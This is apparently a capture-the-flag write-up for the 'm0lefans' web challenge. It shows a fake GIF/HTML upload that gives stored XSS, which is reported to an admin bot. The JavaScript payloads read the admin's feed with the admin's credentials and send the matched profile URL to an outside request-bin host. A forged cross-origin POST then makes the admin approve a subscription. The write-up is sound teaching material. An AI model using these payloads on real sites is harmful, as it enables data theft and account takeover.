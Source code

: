 m0lefans
---

The task is a form of a blog, where users can share the photos of their fans.

There also is a route for reporting any url to the admin, and this is a first sign of an XSS task.

After trying to upload numerous files we've successfully uploaded a html file. All the following JS code snippets
are inserted in the html file, uploaded to a post & the direct link is sent to admin:

```html
GIF89a;
<html>
<head></head>
<body>
    <script>
    	// code goes here
    </script>
</body>
</html>
```

The site provides the functionality to subscribe to another user's posts. After the target user approves the request,
the subscriber can read all the private posts, therefore we need to subscribe to the admin user somehow. 

First, we need to leak the admin's subdomain. It's possible using the feed, which is on the same subdomain as our html 
page with XSS, as there's a link to the user's profile. The following snipped does the trick:

```js
fetch(
    "https://m0lecon.fans/feed/", 
    {method: "GET", mode: "cors", credentials: "include"},
).then(
    resp => {
        resp.text().then(
            content => { 
                console.log(content);
                let match = content.match(/https:\/\/[a-zA-Z0-9-]*\.m0lecon\.fans\/profile\//);
                console.log(match);
                fetch(
                    "https://pomo-mondreganto.me/request_bin/bin/ac108ee7a0?q=" + btoa(JSON.stringify(match)), 
                    {method: "GET", mode: "no-cors"},
                );
            },
        );
    },
);
```

This yields admin's profile link: `https://y0urmuchb3l0v3d4dm1n.m0lecon.fans/profile/`, allowing us to make a 
subscription request.

Now it's time for the main part -- making the admin accept our request. To do so we need to make a POST request to 
admin's profile subdomain with the only argument in the form -- the user's ID. To acquiure the ID, once can register 
another account, make a friend request from the first account to the second and look at the form send when accepting 
the request. It's worth mentioning that the request is between the different domains, so we must use `mode: "no-cors"`
and we can't get the response (not that we need it anyway).

The final snippet for accepting the user's request is (in my case the id was 4):

```js
fetch("https://y0urmuchb3l0v3d4dm1n.m0lecon.fans/profile/request", {
    headers: {
        "Content-Type": "application/x-www-form-urlencoded"
    },
    method: "POST",
    mode: "no-cors",
    body: "id=4",
    credentials: "include"
});
```

After reporting that, we can visit the admin's profile and get the flag from the first post: `ptm{m4k3_CSP_r3ports_gr3a7_4gain!}`.

